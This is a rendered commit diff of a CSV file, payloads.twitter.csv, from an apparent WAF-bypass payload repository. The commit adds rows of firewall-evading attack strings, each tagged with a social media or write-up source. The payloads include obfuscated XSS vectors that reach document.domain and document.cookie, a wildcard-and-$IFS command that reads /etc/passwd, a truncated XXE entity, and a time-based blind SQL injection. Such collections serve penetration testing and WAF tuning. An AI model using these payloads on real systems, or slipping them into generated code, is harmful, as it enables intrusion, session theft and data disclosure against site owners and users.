

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Added new WAF Payloads

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -458 +458,9 @@ https://wpscan.com/vulnerability/6cedb27f-6140-4cba-836f-63de98e521bf,%3Cscript%
 https://twitter.com/0SPwn/status/1651740036717576195,"""><a href=jav&#x0D;ascript&colon;top[8680439..toString(30)](document.domain)>Click</a>",xss
+https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/p?s?w?,ptrav
+https://twitter.com/gdprAI/status/1653160069109026816,<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21; ... omitted ..,xxe
+https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU"},sqli
+https://twitter.com/ShawarkOFFICIAL/status/1656050953660043265,"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">, xss
+https://medium.com/@lopseg/bug-bounty-writeup-stored-xss-vulnerability-waf-bypass-f38aae7ff9eb,<a href="http://example.com;" onmouseover="z=top;z[/al/.source%2b/ert/.source](8);//test.com/",xss
+https://twitter.com/ClumsyLulz/status/1659625523943751702,<svg>on%20onload%3D(“XSS”)(document.domain)<%2Fsvg>,xss
+https://medium.com/@cyberninja717/reflected-cross-site-scripting-vulnerability-in-ellucian-ethos-identity-cas-logout-page-685bb1675dfb,http://example.com%22%3E%3Csvg%3E%3Cimage%20xlink:href=%22path/to/image.jpg%22%20onerror=confirm(document.location)%3E,xss
+https://twitter.com/tohasec/status/1164291647624097797,<img src onerror=%26emsp;prompt`${document.domain}`>,xss
```
